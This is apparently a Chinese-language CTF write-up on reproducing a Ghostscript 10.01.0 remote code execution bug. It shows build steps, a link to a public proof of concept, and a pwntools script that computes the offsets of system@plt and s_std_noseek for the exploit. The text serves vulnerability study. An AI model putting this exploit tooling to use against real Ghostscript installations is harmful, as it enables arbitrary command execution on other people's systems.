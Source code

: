 注：由于不能从 `s_xBCPE_process` 函数的转义列表中写入字符（至少在这个POC中不能），因此我们可能需要重新启动该漏洞攻击几次，才能获得没有这些字节的堆地址。

## 漏洞复现

rwctf提供了漏洞压缩包

```plain
tar xzvf ghostscript-10.01.0.tar.gz 
cd ./ghostscript-10.01.0 
./configure 
make
make install
```

按照以上顺序执行命令即可

文件在./bin/目录下

在github上找到poc

[https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript\_rce](https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce)

利用getoffset.py生成poc文件

```plain
#!/usr/bin/env python

# python offset.py /path/to/gs/binary

# or

# python offset.py /path/to/libgs

# thanks to Laluka for the help

from pwn import *
from sys import argv

if len(argv) != 2:
    print("Usage: python {argv[0]} /path/to/gs_bin or libgs")
    exit(1)


elf_path = argv[1]

# Load the ELF file

elf = ELF(elf_path)

# Get the address of the PLT

init_addr = elf.get_section_by_name('.init').header.sh_addr
print(".init start address: 0x{:x}".format(init_addr))

# Get the address of system@plt

system_plt_addr = elf.plt['system']
print("system@PLT address: 0x{:x}".format(system_plt_addr))
libc_plt_offset = system_plt_addr - init_addr
print("Offset from .init start addr to system@plt: 0x{:x} == {:d}".format(libc_plt_offset, libc_plt_offset))

f_addr_s_std_noseek = elf.functions["s_std_noseek"]
print("f_addr_s_std_noseek address: 0x{:x}".format(f_addr_s_std_noseek.address))
f_addr_s_std_noseek_offset = f_addr_s_std_noseek.address - init_addr
```